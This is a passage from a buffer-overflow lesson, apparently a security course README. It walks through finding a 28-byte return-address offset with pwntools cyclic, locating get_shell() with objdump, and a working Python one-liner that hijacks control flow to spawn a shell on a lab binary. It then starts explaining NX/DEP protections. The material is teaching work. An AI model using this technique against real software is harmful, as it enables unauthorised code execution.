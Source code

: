 A useful tool to calculate the offset is `cyclic` from Python `pwntools`.
It generates a unique subsequences of default 4 bytes. We can find the offset
by doing a lookup of the value where the binary crashed.

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ ./2_echo `cyclic 100`
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Segmentation fault (core dumped)
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ dmesg | tail -n 1
[36049.898181] 2_echo[9973]: segfault at 61616168 ip 0000000061616168 sp 00000000ffffcee0 error 14 in libc-2.23.so[f7e04000+1af000]
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ cyclic -o 0x61616168
28
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```

Since we know the offset of the instruction pointer, we can overwrite it to
the address of `get_shell()`. We need to find its address.

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ objdump -d 2_echo | grep get_shell
0804846b <get_shell>:
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```

The address of `get_shell()` is `0x0804846b`. The exploit will look like this:

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ ./2_echo `python -c 'import struct; ret_address = 0x804846b; print "A" * 28 + struct.pack("I", ret_address)'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAk�
$ ls
1_grade  2_echo
$ 
Illegal instruction (core dumped)
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```

## Buffer Overflow Protection Mechanisms

There are various protection mechanisms to detect buffer overflow or make
it harder to execute arbitrary code due to buffer overflow.

### No-eXecute

No-eXecute (NX), aka Data Execution Prevention (DEP), marks writable regions
of memory as non-executable. The stack and heap are typically marked as
non-executable so that arbitrary code will not be executed in the data memory
segment.

To verify it, we run a binary and find its PID in another terminal.

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ ps -aux | grep grade
ubuntu   10608  0.0  0.0   2200   436 pts/11   S+   14:35   0:00 ./1_grade
ubuntu   10631  0.0  0.0  14224   988 pts/4    S+   14:35   0:00 grep --color=auto grade
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```


[1]: ./build/1_grade
[2]: ./src/1_grade.c
[3]: ./build/2_echo
[4]: ./src/2_echo.c